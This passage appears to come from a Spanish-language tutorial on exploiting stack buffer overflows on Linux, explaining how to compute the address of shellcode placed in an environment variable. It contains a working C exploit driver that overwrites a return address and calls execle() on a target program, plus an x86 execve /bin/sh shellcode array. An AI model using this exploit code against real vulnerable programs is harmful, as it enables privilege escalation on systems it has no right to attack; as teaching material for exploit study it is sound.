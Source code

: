 int main(int argc, char\*\* argv)  
{  
char arg\[RELLENO + sizeof(void\*)\];  
char\* env\[\] = {shellcode, NULL};  
uint32\_t\* addr;  
int i;

for(i = 0; i < RELLENO; i++)  
arg\[i\] = ‘A’;

addr = (int\*)(arg + RELLENO);  
\*addr = 0xffffe000 – 4 \* 2 – (strlen(RUTA) + 1) – (strlen(shellcode) + 1);  
printf(«Usando direccion: \[ %p \]n», \*addr);

printf(«Payload: «);  
for(i = 0; i < RELLENO + 4; i++)  
printf(«%02x», (unsigned char) arg\[i\]);  
putchar(‘n’);

execle(RUTA, RUTA, arg, NULL, env);  
panic(«Error en execle()»);  
}

Aparte de las diferencias de estilo (y que yo he usado un shellcode un tanto mejor), se aprecia en la línea

\*addr = 0xffffe000 - 4 \* 2 - (strlen(RUTA) + 1) - (strlen(shellcode) + 1);

las diferencias a la hora de calcular la dirección del shellcode. La más evidente es que antes el stack comenzaba en 0xbfffffff, ahora en 0xffffe000. Otra importante es que, como ya hemos comentado, antaño en el tope del stack se encontraba un `0x00000000`, actualmente son dos, de ahí que en lugar de aparecer un simple `-4`, aparezca un `-4*2`, para restar los 8 bytes que suman los dos `0x00000000`. A esto se le resta la longitud del nombre del programa y la longitud del shellcode. Me es particularmente gracioso cómo blackngel, tanto en el artículo como en el libro que publicó hace ya un tiempo, indica que a esto hay que sumarle _normalmente_ un byte «extra», sin dar explicaciones. Ese byte «extra» se debe restar siempre, ya que es el byte que termina la cadena del nombre del programa. Igualmente, no me explico que no se mencione otro byte «extra» que se debe restar que es el que termina la variable del entorno con nuestro shellcode, ya que, aunque se trata de un valor binario, no de una cadena (está compuesta por caracteres no imprimibles) en el exploit lo hemos definido como una cadena (se encuentra en comillas), y en caso de que lo definamos como un array de char’s y no lo terminemos con un byte nulo, a la hora de situar execve() (llamado por execle()) las variables del entorno en el stack del nuevo proceso, no sabrá cuándo terminar de leer, leyendo (y escribiendo cada byte leído en el stack del nuevo proceso) hasta encontrar un byte nulo, ya que espera que cada variable del entorno sea una cadena. Luego ese byte nulo **_debe_** existir.

Si alguien desea hacer la prueba sobre esto último, debe definir el array `shellcode` dentro de una función, ya que, si se declara como global, se situará en la sección `.data`, donde, con casi total seguridad, se colocará al final de dicha seccìón. Cada sección está terminada por al menos un 0x00000000, por lo que encontraríamos que nuestro shellcode ha sido terminado por un byte nulo y no podremos experimentar la necesidad de definir las variables del entorno como strings.

    int main()
    {
        char shellcode[] = {0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68,
                            0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x50,
                            0x53, 0x89, 0xe1, 0x31, 0xd2, 0xb0, 0x0b, 0xcd,
                            0x80};
        [...]
    }
